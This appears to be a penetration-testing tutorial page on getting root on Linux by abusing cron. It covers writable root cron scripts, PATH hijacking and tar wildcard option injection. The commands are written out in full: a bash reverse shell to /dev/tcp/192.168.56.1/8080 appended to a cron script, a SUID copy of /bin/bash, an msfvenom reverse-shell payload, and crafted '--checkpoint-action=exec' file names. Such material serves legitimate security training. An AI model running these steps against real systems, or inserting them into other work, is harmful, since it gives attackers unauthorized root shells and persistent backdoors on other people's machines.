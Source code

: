 # cron/crontab abuse

## <mark style="color:red;">Crontab</mark> <a href="#top" id="top"></a>

#### cron or crontab is a unix job scheduler tool. a best friend for system administrators and when misconfigured, the best chance for an attacker to gain root access. cron instructions usually consist of simple commands like a regular rsync command or a log cleaner one-liner script.but it gets real interesting when we find a path for a script to run as sudoer or root user in the crontab entries.if we are lucky enough to have an insecure file permission we can use it to escalate our privileges. In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. On a Linux system, the cron time based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

#### for example look for cron jobs with the following commands:&#x20;

#### `grep "CRON" /var/log/cron.log # works best for unprivileged users`&#x20;

#### `crontab -l`&#x20;

#### `ls -alh /var/spool/cron`&#x20;

#### `ls -al /etc/ | grep cron`&#x20;

#### `ls -al /etc/cron*`

#### &#x20;`cat /etc/cron*`&#x20;

#### `cat /etc/at.allow`

#### &#x20;`cat /etc/at.deny`&#x20;

#### `cat /etc/cron.allow`&#x20;

#### `cat /etc/cron.deny`&#x20;

#### `cat /etc/crontab`&#x20;

#### `cat /etc/anacrontab`

#### &#x20;`cat /var/spool/cron/crontabs/root`

![](../../../.gitbook/assets/cron1.png)

when we find a file we check the permissions and content

![](../../../.gitbook/assets/cron2.png)

greate, we have read/write access to a file that is executed by root user every minute.the rest is history: we add a reverse shell one-liner to the file and setup a listener and wait for cron to run the script.

#### `` `echo "bash -i >& /dev/tcp/192.168.56.1/8080 0>&1" >> /usr/local/bin/overwrite.sh` ``

![](../../../.gitbook/assets/cron3.png)

## <mark style="color:red;">PATH Environment Variable</mark>

\
The crontab PATH environment variable is by default set to /usr/bin:/bin The PATH variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.\
\
View the contents of the system-wide crontab:\\

#### `cat /etc/crontab`

Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.\\

![](../../../.gitbook/assets/cron4.png)

so we have full access to our home path which is also the PATH variable in crontab so we can create a file with the same name in our home directory and the cronjob will execute it.

![](../../../.gitbook/assets/cron5.png)

we can also make a copy of /bin/bash to have a root shell without spawning a new tty:

#### `nano /home/user/overwrite.sh`

#### &#x20;`#!/bin/bash`

#### &#x20;`cp /bin/bash /tmp/rootbash`

#### &#x20;`chmod +s /tmp/rootbash`

#### Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:

#### `/tmp/rootbash -p`

![](../../../.gitbook/assets/cron6.png)

## <mark style="color:red;">Wildcards</mark>

\
Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names. The following commands should show how this works:\
\\

#### `ls *`

#### &#x20;`touch ./-l` `ls *`

![](../../../.gitbook/assets/w1.png)

Filenames are not simply restricted to simple options like -h or --help.\
In fact we can create filenames that match complex options:\\

#### `--option=key=value`

[GTFOBins](https://gtfobins.github.io) can help determine whether a command has command line options which will be useful for our purposes.\
\
\
View the contents of the system-wide crontab:\\

#### `cat /etc/crontab`

![](../../../.gitbook/assets/w2.png)

View the contents of the /usr/local/bin/compress.sh file:\
\\

#### `$ cat /usr/local/bin/compress.sh`&#x20;

#### `#!/bin/sh`&#x20;

#### `cd /home/user`&#x20;

#### `tar czf /tmp/backup.tar.gz *`

Note that the tar command is run with a wildcard in the /home/user directory.\
GTFOBins shows that tar has command line options. which can be used to run other commands as part of a checkpoint feature.

![](../../../.gitbook/assets/w3.png)

Use msfvenom to create a reverse shell ELF payload:\\

#### `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6666 -f elf -o shell.elf`

\
\
Copy the file to the /home/user directory on the remote host. Create two files in the /home/user directory:\
\\

#### `touch /home/user/--checkpoint=1`&#x20;

#### `touch /home/user/--checkpoint-action=exec=shell.elf`

Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught.

![](../../../.gitbook/assets/w4.png)
